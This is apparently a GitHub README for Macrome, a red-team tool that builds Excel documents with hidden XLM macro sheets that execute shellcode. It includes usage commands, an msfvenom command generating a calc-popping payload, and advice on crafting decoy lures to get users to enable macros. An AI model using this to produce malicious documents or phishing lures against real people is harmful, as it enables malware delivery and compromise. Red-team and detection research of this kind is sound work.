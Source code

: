 # Macrome
An Excel Macro Document Reader/Writer for Red Teamers & Analysts.

![An example created document using the default template.](Docs/macrome.png)

# Installation / Building
Clone or download this repository, the tool can then be executed using dotnet - for example:

~~~
dotnet run -- --decoy-document Docs\decoy_document.xls --payload Docs\popcalc.bin
~~~

or 

~~~
dotnet build
cd bin/Debug/netcoreapp2.0
dotnet Macrome.dll --decoy-document decoy_document.xls --payload popcalc.bin
~~~

# Usage
Run Macrome by either using `dotnet run` from the solution directory, or `dotnet` against the built Macrome binary. 
~~~
Macrome:
  Generate an Excel Document with a hidden macro sheet that will execute code described by the payload argument.

Usage:
  Macrome [options]

Options:
  --decoy-document <decoy-document>          File path to the base Excel 2003 sheet that should be visible to users.
  --payload <payload>                        Either binary shellcode or a newline separated list of Excel Macros to execute
  --payload-type <Macro|Shellcode>           Specify if the payload is binary shellcode or a macro list. Defaults to Shellcode
  --macro-sheet-name <macro-sheet-name>      The name that should be used for the macro sheet. Defaults to Sheet2
  --output-sheet-name <output-sheet-name>    The output filename used for the generated document. Defaults to output.xls
  --debug-mode                               Set this to true to make the program wait for a debugger to attach. Defaults to false
  --version                                  Show version information
  -?, -h, --help                             Show help and usage information
~~~

## Binary Payload Usage
First generate a base "decoy" Excel document that will contain content users should see. This should be some sort of lure that convinces users to click the "Enable Macros" button displayed in Excel. There's some examples of the "latest and greatest" lure creation at https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-. Once this sheet is created, save the document as type `Excel 97-2003 Workbook (*.xls)` rather than the newer `Excel Workbook (*.xlsx)` format. An example decoy document is included in `/Docs/decoy_document.xls`.

Next, generate a shellcode payload to provide to the tool. The example binary payload (which pops calc) was generated using `msfvenom` using the following parameters:

~~~
 msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f raw EXITFUNC=thread > popcalc.bin
~~~

Note that using a majority alpha-numeric payload will reduce the size of the macro file generated since it's easier to express letters and numbers in macro form instead of appending `CHAR` function invocations repeatedly like `=CHAR(123)&CHAR(124)&CHAR(125)...` etc. But the tool should be able to handle a completely unprintable binary payload as well.

Currently this will only work with `x86` payloads, but `x64` support is coming soon, along with support for loading .NET binaries.

## Macro Payload Usage
Technically possible, but there's more work to do on this both implementation and documentation side.

# Acknowledgements 
Big thanks to all the shoulders that I was able to stand on in order to write this.

* https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/ - The Outflank team created this attack, I'm just automating some of the tedious parts.
* The folks at InQuest for their excellent write-ups on what malware authors are doing to evade detection right now.
  * https://inquest.net/blog/2019/01/29/Carving-Sneaky-XLM-Files
  * https://inquest.net/blog/2020/03/18/Getting-Sneakier-Hidden-Sheets-Data-Connections-and-XLM-Macros
  * https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-
* [@DissectMalware](https://twitter.com/DissectMalware/) for their killer [XLMMacroDeobfuscator](https://github.com/DissectMalware/XLMMacroDeobfuscator) tool which has been awesome to test against and is just a really great piece of tech if you're on the defense/analyst side.
* The original authors of the `b2xtranslator` library as well as the folks at EvolutionJobs who updated it and ported it to dotnet. The code used here was initially sourced from https://github.com/EvolutionJobs/b2xtranslator.
* Imagery taken from KC Green's comic at https://gunshowcomic.com/648
